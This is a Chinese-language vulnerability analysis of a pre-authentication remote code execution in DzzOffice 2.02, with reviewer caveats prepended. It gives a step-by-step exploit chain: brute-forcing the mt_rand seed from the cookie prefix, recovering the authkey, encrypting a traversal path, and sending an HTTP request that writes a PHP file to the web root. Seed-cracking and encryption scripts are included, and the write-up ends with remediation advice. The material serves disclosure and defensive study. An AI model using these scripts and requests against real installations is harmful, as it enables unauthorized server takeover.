







## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：2.02; login CAPTCHA already enabled; observable cookie prefix and verification ciphertext; predictable MT sequence matching PHP runtime; recover full authkey; WOPI writable PHP destination

- **结论使用边界（1）**：Better categorized office/collaboration software than CMS。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：Prerequisite 'must enable in backend' means unauthenticated exploit is conditional on existing config, not attacker-authorized setup。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：Same-seed deterministic sequence described as each generated value fixed; clarify sequence vs repeated value。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：Claims full crack script includes authcode_decode/random but code explicitly omits both。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（5）**：Deleting installer after install doesn't rotate already predictable authkey or fix WOPI; remediation needs key rotation and fixed generation。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **证据待核（6）**：Good explicit unverified Issue137 separation and PDF provenance。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# （DzzOffice 2.02）前台 RCE

一、漏洞简介
------------

DzzOffice 2.02 前台远程代码执行。根因是该系统大量套用 Discuz 的代码，`install/index.php` 在安装时生成 `authkey` 与 Cookie 前缀时调用的 `random()` 函数与 Discuz 修复随机数安全问题之前一模一样——没有重新播种，所有随机数都通过同一个种子生成。攻击者可通过可获取的 Cookie 前缀爆破出 mt_rand 种子，进而还原出完整的 `authkey`；拿到 `authkey` 后，利用 Discuz 式 `authcode` 流加密算法加密任意 `Path` 参数，调用 `core/api/wopi/index.php` 的 `Wopi::PUTFile` 任意文件写入，配合 `..././` 绕过路径消除，直接写 shell 到 Web 根目录。

漏洞产生的关键点在 `install/index.php`，这个文件在完成安装之后会被自动删除，但漏洞作者在这里发现了问题——做代码审计时不要忽略任何一个文件。

二、漏洞影响
------------

-   产品：DzzOffice（源码：https://github.com/zyx0814/dzzoffice/releases/）
-   版本：2.02（原文验证版本；其他版本未确认）
-   组件：`install/index.php`（authkey 生成）、`install/include/install_function.php`（`random()`）、`core/api/wopi/index.php`（`Wopi::PUTFile` 任意文件写入）
-   前提条件：前台即可利用，无需登录；但复现时必须在后台开启用户登录验证码（`admin.php?mod=setting&operation=sec`），否则后续拿不到用于验证 `authkey` 的 Cookie
-   漏洞编号 / CVSS / 补丁状态：未确认

三、复现过程
------------

### 漏洞分析

**1. random 种子固定**

定位到 `install/index.php` 相关代码片段：

```php
$uid = 1 ;
$authkey = substr(md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$pconnect.substr($timestamp, 0, 6)), 8, 6).random(10);
$_config['db'][1]['dbhost'] = $dbhost;
$_config['db'][1]['dbname'] = $dbname;
$_config['db'][1]['dbpw'] = $dbpw;
$_config['db'][1]['dbuser'] = $dbuser;
$_config['db'][1]['port'] = $port?$port:'3306';
$_config['db'][1]['tablepre'] = $tablepre;
$_config['admincp']['founder'] = (string)$uid;
$_config['security']['authkey'] = $authkey;
$_config['cookie']['cookiepre'] = random(4).'_';
$_config['memory']['prefix'] = random(6).'_';
```

这里的 `authkey` 一部分和 Cookie 前缀都是调用 `random()` 函数生成的：前 6 位是一堆变量 md5 后截取出来的，后十位是 `random` 函数生成的；Cookie 前四位是 `random` 生成的。跟进 `random()`，该函数位于 `install/include/install_function.php`：

```php
function random($length) {
    $hash = '';
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
    $max = strlen($chars) - 1;
    PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
    for($i = 0; $i < $length; $i++) {
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
}
```

这里的 `random()` 函数跟修复随机数安全问题前的 Discuz 一模一样，没有重新播种，所有随机数都是通过同一个种子生成出来的。一个小知识点：在 PHP4.2.0 之前的版本，必须要通过 `srand()` 或 `mt_srand()` 给 `rand()` 或 `mt_rand()` 播种；在 PHP4.2.0 之后的版本，事先可以不再通过 `srand()` 或 `mt_srand()` 播种，如直接调用 `mt_rand()`，系统会自动播种。系统自动播种的种子范围为 0~2^32（32 位系统），这样似乎也能枚举。

用固定了种子的 Demo 做测试：



可以得出结论：在同一进程中，同一个 seed，每次通过 `mt_rand()` 生成的值都是固定的。

**2. 通过 Cookie 获取种子**

由于这里的 Cookie 前缀是我们可以获取到的，所以我们可以跑一遍 PHP 的所有的种子，得到 11-14 位对应的随机数序列所对应的随机字符，判断是否为我们的 Cookie 前缀。这样就能获取所有随机可能的种子。再通过所有可能的随机数种子生成第 1-10 位对应的随机字符，这样就可以拿到 `authkey[-10:]`，至于前 6 位只能选择爆破。这样的话我们就能获得很多组可能的 `authkey`。

要解决两个问题：`authkey` 有什么作用；如何验证 `authkey` 的正确性。

**3. authkey 的作用**

这个系统大量套用 Discuz 的代码，因此 `authkey` 和 Discuz 里面的效果一样，在一种流算法 `authcode()` 中使用的 key，来加密一些重要的参数。这也就意味着，只要能够拿到这个 `authkey`，我们就能传入我们需要的参数。

**4. 验证 authkey 的正确性**

通过全局搜索可以找到一处 `authcode()` 后的数据能够被获取到，且加密之后的可控明文点。文件 `core/function/function_seccode.php` 代码片段如下：

```php
dsetcookie('seccode'.$idhash, authcode(strtoupper($seccode)."\t".(TIMESTAMP - 180)."\t".$idhash."\t".FORMHASH, 'ENCODE', $_G['config']['security']['authkey']), 0, 1, true);
```

这里设置了一个 cookie，密文是用 `authkey` 生成的，并且密文可以被得到，利用这里的 cookie 即可验证 `authkey` 的正确性。

**5. 完整爆破 authkey 流程**

1.  通过 cookie 前缀爆破随机数的 seed，使用 `php_mt_seed` 工具。
2.  用 seed 生成 `random(10)`，得到所有可能的 `authkey` 后缀。
3.  查看 Cookie，获取 `$idhash` 和对应的密文。
4.  用生成的后缀爆破前 6 位，范围是 `0x000000-0xffffff`，解密密文观察是否正确。
5.  将计算出来的密文和获取的密文比较，相等即停止，获取当前的 `authkey`。

Cookie 前缀很容易得到。利用如下脚本获得可以处理 `php_mt_seed` 格式的数据：

```python
w_len = 10
result = ""
str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(str_list)
for i in range(w_len):
    result += "0 "
    result += str(length-1)
    result += " "
    result += "0 "
    result += str(length - 1)
    result += " "
sstr = "gGyk"
for i in sstr:
    result += str(str_list.index(i))
    result += " "
    result += str(str_list.index(i))
    result += " "
    result += "0 "
    result += str(length - 1)
    result += " "
print(result)
```

生成可能的种子文件：



使用如下脚本处理暴力爆破，验证 idhash 即可（原文脚本，含 `authcode_decode` 与 `random` 实现）：

```php
<?php
$pre = 'gGyk';
$seccode = substr('gGyk_2132_seccodeST09ZLe0', -8);
$string = '2121YXrez2Rb_00AasW9CQZdtAIM2HTcnuaPmShhMGHLfrWTtXnAkbq42XcqrY94rVDphUTYWnaK9OX9m0';
$seeds = explode("\n", file_get_contents('seed.txt'));
for ($i = 0; $i < count($seeds); $i++) {
    if(preg_match('/= (\d+) /', $seeds[$i], $matach)) {
        mt_srand(intval($matach[1]));
        $authkey = random(10);
        echo $authkey;
        if(random(4) == $pre){
            echo "trying $authkey...\n";
            $res = crack($string, $authkey, $seccode);
            if($res) {
                echo "authkey found: ".$res;
                exit();
            }
        }
    }
}
function crack($string, $authkey, $seccode) {
    $chrs = '1234567890abcdef';
    for ($a = 0; $a < 16; $a++) {
        for ($b = 0; $b < 16; $b++) {
            for ($c = 0; $c < 16; $c++) {
                for ($d = 0; $d < 16; $d++) {
                    for ($e = 0; $e < 16; $e++) {
                        for ($f = 0; $f < 16; $f++) {
                            $key = $chrs[$a].$chrs[$b].$chrs[$c].$chrs[$d].$chrs[$e].$chrs[$f].$authkey;
                            $result = authcode_decode($string, $key);
                            if (strpos($result, "\t$seccode\t")) {
                                return $key;
                            }
                        }
                    }
                }
            }
        }
    }
    return false;
}
// authcode_decode / random 函数实现见原文
```

最终可以得到 `authkey`：`3ccd48TRC0BU9NnD`。

**6. 文件上传点**

拿到 `authKey` 之后，全局搜索 `dzzdecode(` 能找到很多的利用点。这里演示一个文件上传的利用，在 `core/api/wopi/index.php` 中：



跟进 `Wopi::PUTFile`，调用 `IO::SetFileContent`，跟进：



跟进 `self::clean`：



这里将 `\n`、`\r`、`../` 替换为空，可以使用 `..././` 绕过。回头跟进 `self::initIO`，根据 `$path` 的值实例化类。

回到开始的 `PUTFile`，Content 获取 `php://input` 也就是 POST 数据流，Path 采用流式加密，GET 获取，也是可控的，这样直接上传文件即可。

### PoC

使用脚本加密 Path：

```php
<?php
function authcode_config($string,$key, $operation = 'DECODE', $expiry = 0)
{
    $ckey_length = 4;
    $key = md5($key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);
    $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);
    $result = '';
    $box = range(0, 255);
    $rndkey = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }
    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }
    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }
    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
}
echo base64_encode(authcode_config("disk::..././..././..././shell.php",md5('3ccd48TRC0BU9NnD'),'ENCODE'));
```



构造数据包（Cookie 为原文复现环境的值，目标环境需替换）：

```http
POST /dzz/core/api/wopi/index.php?access_token=1&action=contents&path=Y2RhNUl5N09ZVW8vaGNkV0tEcU1qZzc0bGtLWGlIVXZEdjY3eUxmaXFiR3k1VDhtNUJXSFZnZHF1Y3I1VGZCcmtDNXljVGJaMVFnSWlNVENzR1U= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: gGyk_2132_saltkey=xkBk27da; gGyk_2132_lastvisit=1658359791; gGyk_2132_sid=T09ZLe; gGyk_2132_lastact=1658363412%09misc.php%09seccode; gGyk_2132_seccodeST09ZLe0=2121YXrez2Rb_00AasW9CQZdtAIM2HTcnuaPmShhMGHLfrWTtXnAkbq42XcqrY94rVDphUTYWnaK9OX9m0
Connection: close
Content-Length: 18
Content-Type: application/x-www-form-urlencoded

<?php phpinfo();?>
```

访问根目录的 `shell.php` 即可 RCE：



备注：原文还提到在该项目 GitHub 的 Issue #137 里发现一处有意思的点（`defined` 限制导致页面没法直接访问，作者猜测若能绕过 Defend 可能存在前台文件包含），但作者表示不太明白这里代码的作用、没有深入挖掘，此处仅转述，不作为已验证利用链。

四、修复建议
------------

1.  修复 `random()` 的随机数种子问题：安装时使用密码学安全随机数（如 `random_bytes`）生成 `authkey`、Cookie 前缀，避免可爆破的 mt_rand 序列；
2.  安装完成后彻底删除 `install/` 目录（默认虽会自动删除，但应确保不可恢复/不可访问）；
3.  `Wopi::PUTFile` 等文件写入接口增加严格的身份鉴权与路径白名单，`clean()` 的路径消除改为白名单校验而非黑名单替换；
4.  关注厂商是否发布官方补丁（截至成稿未确认补丁状态），及时升级。

### 附录

参考链接：

-   先知社区原文：《某 Office2.02 前台 RCE 分析》（先知社区，2022 年 7 月发布；原文链接未保留，以 PDF 镜像为准）
-   PDF 镜像：https://github.com/Mr-xn/Penetration_Testing_POC/raw/refs/heads/master/books/%E6%9F%90Office2.02%E5%89%8D%E5%8F%B0RCE%E5%88%86%E6%9E%90.pdf
-   原文提及的线索：https://github.com/zyx0814/dzzoffice/issues/137、https://www.anquanke.com/post/id/86679
